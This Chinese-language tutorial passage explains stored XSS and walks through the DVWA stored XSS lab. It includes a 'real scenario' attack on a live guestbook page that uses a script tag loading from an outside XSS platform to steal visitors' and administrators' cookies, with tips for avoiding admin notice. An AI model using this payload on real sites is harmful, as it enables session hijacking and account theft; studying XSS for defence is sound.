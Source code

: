 POST型



### 4 存储型XSS

​     存储型XSS又叫持久型XSS，在web中 也是最危险的一种跨站脚本。储蓄型XSS其实和反射型XSS差不多，只是储蓄型把数据保存到服务端，而反射型只是让XSS游走在客户端上。

​      当攻击者提交一段XSS代码后，被服务器端接受并存储，当再次访问某页面时，这段代码被程序读出来响应给浏览器，造成XSS跨站攻击。

​       存储型XSS与反射型XSS、DOM型XSS相比，具有更高的隐蔽性，危害更大，与反射型XSS和DOM型XSS最大的区别在于存储型XSS不需要手动去触发。

​        输入的JS代码直接**嵌入**到HTML代码中，因而得以执行。而在留言的模块中JS代码不会显示出来。结果可知两个变量都存在XSS注入漏洞。在这种类型的漏洞体验中可以很明显地感受到，只要每次打开该页面都会进行弹窗，这也是和反射型的根本区别所在。

​      以下为真实场景中的某网站存储型XSS：

​      习惯性的打开留言处(book.asp)，点击留言(这里最好不要使用

```
<script>alert("xss")</script>
```

来测试是否存在XSS漏洞，容易被管理员发现，所以你可以使用`<a></a>`来测试，如果成功了，不会被管理员发现)OK，我先在留言里出输入`<a>s</a>`提交留言，F12打开审查元素，来看我们输入的标签是否被过滤了。

![9](D:\存储\文章\xss跨站\9.png)

发现没有过滤(如果`<a>s</a>`是彩色的说明没有过滤，如果是灰色就说明过滤了)

那我就在xss平台里创建一个项目，然后再次构造隐蔽性的留言，里面写上，“<script src="http://xss8.pw/EFe2Ga?1409273226"></script>请问怎么报名啊”

![10](D:\存储\文章\xss跨站\10.png)

只要你访问

<http://www.******.com/book.asp>就可以获取用户的cookies，以及管理员后台地址的cookie(因为留言板一般都在后台做审核)。

![11](D:\存储\文章\xss跨站\11.png)

实例与刨析：

存储型跨站可以将XSS语句直接写入到数据库中，因而相比反射型跨站的利用价值要更大。

在DVWA中选择XSS stored，这里提供了一个类型留言本的页面。

[![image](http://s3.51cto.com/wyfs02/M00/78/CF/wKioL1aDoiyBt8R5AABKE9qXwRs573.png)](http://s3.51cto.com/wyfs02/M00/78/D1/wKiom1aDog6TXMsOAABc2llz-gA184.png)

我们首先查看low级别的代码，这里提供了$message和$name两个变量，分别用于接收用户在Message和Name框中所提交的数据。对这两个变量都通过mysql_real_escape_string()函数进行了过滤，但是这只能阻止SQL注入漏洞。

[![image](http://s3.51cto.com/wyfs02/M01/78/D2/wKiom1aDohDipYKrAACUN_YNjSM524.png)](http://s3.51cto.com/wyfs02/M02/78/CF/wKioL1aDoizQAtKHAACB_0Xao9w298.png)

可以看出，在low级别下，Name和Message这两个文本框都存在跨站漏洞，但是由于DVWA对name框的长度进行了限制，最多只允许输入10个字符，所以我们这里在Message框输入跨站语句`<script>alert('hi')</script>`，以后任何人只要访问这个留言页面，就可以触发跨站语句，实现弹框。

当然，弹框并不是目的，XSS的主要用途之一是盗取cookie，也就是将用户的cookie自动发送到黑客的电脑中。

